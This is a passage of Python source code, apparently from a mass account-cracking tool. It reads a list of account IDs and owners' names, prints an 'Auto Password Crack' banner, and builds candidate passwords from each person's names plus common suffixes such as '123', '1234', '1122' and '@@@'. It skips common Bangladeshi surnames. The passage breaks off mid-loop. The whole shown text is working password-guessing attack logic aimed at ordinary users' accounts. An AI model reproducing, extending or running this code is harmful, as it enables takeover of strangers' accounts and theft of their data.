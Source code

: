 		print ("[\033[1;92m•\033[1;97m]Total Account:\x1b[32m"+total_ids)
		print ("\033[1;97m[\033[1;92m•\033[1;97m]Auto Password Crack")
		linex()
		
		for user in fo:
			idf,name = user.split('|')[0],user.split('|')[1].lower() 
			pwv = []
			frs = name.split(' ')[0]
			if len(frs)<=2:
				pwv.append(name)
				try:
					lss = name.split(' ')[1].lower()
					if len(lss)<=3 or (lss) == 'khan' or (lss) == 'islam' or (lss) == 'akter' or (lss) == 'rahman' or (lss) == 'ahmed' or (lss) == 'jahan' or (lss) == 'ahmmed':
						pass
					else:
						pwv.append(lss+'123')
						pwv.append(lss+'1234')
						
						#pwv.append(lss+'@@@')
						pwv.append(lss+'1122')
						pwv.append(lss+'111')
						
						try:
							lsd = name.split(' ')[2]
							if len(lsd)<=3 or (lsd) == 'khan' or (lsd) == 'islam' or (lsd) == 'akter' or (lsd) == 'rahman' or (lsd) == 'ahmed' or (lsd) == 'jahan' or (lsd) == 'ahmmed':
								pass
							else:
								pwv.append(lsd+'123')
						except:
							pass
				except:
					pass
			else:
				pwv.append(name)
				pwv.append(frs+'123')
				pwv.append(frs+'1234')
				pwv.append(frs+'12345')
				#pwv.append(frs+'123456')
				pwv.append(frs+'1122')
				pwv.append(frs+'@@@')
				pwv.append(frs+'111')
				try:
					lss = name.split(' ')[1]
					if len(lss)<=3 or (lss) == 'khan' or (lss) == 'islam' or (lss) == 'akter' or (lss) == 'rahman' or (lss) == 'ahmed' or (lss) == 'jahan' or (lss) == 'ahmmed':
						pass
					else:
						pwv.append(lss+'123')
						pwv.append(lss+'@@@')
						pwv.append(lss+'1122')
						pwv.append(lss+'222')
						pwv.append(lss+'1234')
						#pwv.append(lss+'12345')
						pwv.append(lss+'@@@')
						#pwv.append(lss+'112')
						pwv.append(lss+'111')
						#pwv.append(lss+'123456')
						try:
							lsd = name.split(' ')[2]
							if len(lsd)<=3 or (lsd) == 'khan' or (lsd) == 'islam' or (lsd) == 'akter' or (lsd) == 'rahman' or (lsd) == 'ahmed' or (lsd) == 'jahan' or (lsd) == 'ahmmed':
								pass
							else: